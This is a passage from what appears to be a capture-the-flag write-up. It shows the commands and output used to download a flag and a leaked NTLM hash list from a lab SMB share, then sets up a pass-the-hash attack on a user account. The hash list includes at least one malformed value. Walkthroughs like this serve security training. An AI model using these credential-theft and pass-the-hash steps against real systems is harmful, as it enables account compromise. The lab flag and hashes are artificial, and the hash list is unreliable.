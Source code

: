 ```
```

**Files Discovered:**
- `flag1.txt` - Our target flag
- `leaked-hashes.txt` - Potentially containing credential hashes

This is exactly what we need! The leaked hashes file suggests there may be additional users we can compromise.

### Step 5: File Retrieval

```bash
download flag1.txt
download leaked-hashes.txt
```

**File Download Results:**
```
SMB (10.2.27.100\HRDocuments) > download flag1.txt
[*] Downloaded 34.00 B of 34.00 B (100.0%)
[+] Downloaded flag1.txt to flag1.txt
SMB (10.2.27.100\HRDocuments) > download leaked-hashes.txt
[*] Downloaded 6.51 KiB of 6.51 KiB (100.0%)
[+] Downloaded leaked-hashes.txt to leaked-hashes.txt
```

Reading the flag file:
```bash
cat flag1.txt
```

**Flag 1 Content:**
```
7709e0d8e268405599af1eb0ea8bf304
```

🚩 **Flag 1**: `7709e0d8e268405599af1eb0ea8bf304`

## Challenge 2: NTLM Hash Attack

### Objective
*"Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user nancy?"*

The leaked hashes file provides us with NTLM hashes that we can use for pass-the-hash attacks, a powerful technique in Windows environments.

### Step 1: Hash Analysis

Let's examine the contents of the leaked hashes file:

```bash
cat leaked-hashes.txt
```

**Leaked Hashes Content:**
```
aad3b435b51404eeaad3b435b51404ee:a3dwea4b4v957f2e037rf75cfe5218ed
aad3b435b51404eeaad3b435b51404ee:33f0bc3a5ea6ea0a0eb8d81e8a3c18e0
aad3b435b51404eeaad3b435b51404ee:2b6fb4dca01db3065f8ef2a654aeaf14
aad3b435b51404eeaad3b435b51404ee:8f06e3a0fda656e3f7c5b35b7e332e98
aad3b435b51404eeaad3b435b51404ee:b5ae529619b206bf3e4b45e8a22c40da
aad3b435b51404eeaad3b435b51404ee:46c197f775b07056337e85f8378244f5
aad3b435b51404eeaad3b435b51404ee:24c3d6a1da5d70f88a3f91faad0e6a75
[... many more hashes ...]
aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad
aad3b435b51404eeaad3b435b51404ee:3e7a00edf97e91a9bbd85e6ef9bdfb8e
aad3b435b51404eeaad3b435b51404ee:7e7fcf33d3aa541fe76b05e47f6873d8
[... continues for 80+ hashes ...]
```